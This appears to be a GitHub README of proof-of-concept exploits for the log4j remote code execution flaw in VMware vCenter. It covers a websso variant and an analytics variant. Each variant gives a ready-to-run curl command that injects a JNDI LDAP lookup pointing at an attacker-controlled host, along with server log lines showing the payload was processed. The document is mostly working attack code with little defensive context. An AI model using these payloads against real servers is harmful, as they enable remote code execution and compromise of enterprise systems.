



# VMWare-vcenter log4j RCE

## websso variant

### Poc

```
curl --insecure  -vv -H "X-Forwarded-For: \${jndi:ldap://10.0.0.3:1270/lol}" "https://10.0.0.4/websso/SAML2/SSO/photon-machine.lan?SAMLRequest="
```

Logs

```
[2021-12-13T16:31:34.000Z tomcat-http--15 photon-machine.lan   fcf6634c-4722-4b22-9c46-d78a86f0b388 INFO  auditlogger] {"user":"n/a","client":"${jndi:ldap://10.0.0.3:1270/lol}, 10.0.0.3","timestamp":"12/13/2021 16:31:33 UTC","description":"User n/a@${jndi:ldap://10.0.0.3:1270/lol}, 10.0.0.3 failed to log in: org.opensaml.messaging.decoder.MessageDecodingException: No SAMLRequest or SAMLResponse query path parameter, invalid SAML 2 HTTP Redirect message","eventSeverity":"INFO","type":"com.vmware.sso.LoginFailure"}
```



### 复现





### Reference

https://twitter.com/w3bd3vil/status/1469814463414951937

## Analytics Variant

### Poc

```
curl -vv --insecure -X POST "https://10.0.0.4/analytics/telemetry/ph/api/hyper/send?_c=\$%7Bjndi:ldap://10.0.0.3:1270/l%7D&i=test"
```

Logs

```
2021-12-21T15:14:27.726Z pool-9-thread-1  WARN  ph.phservice.push.telemetry.DefaultTelemetryLevelService Failed to discover telemetry level via the manifest for collector: ${jndi:ldap://10.0.0.3:1270/l}.  Enable 'debug' level logging to see the stack trace.
```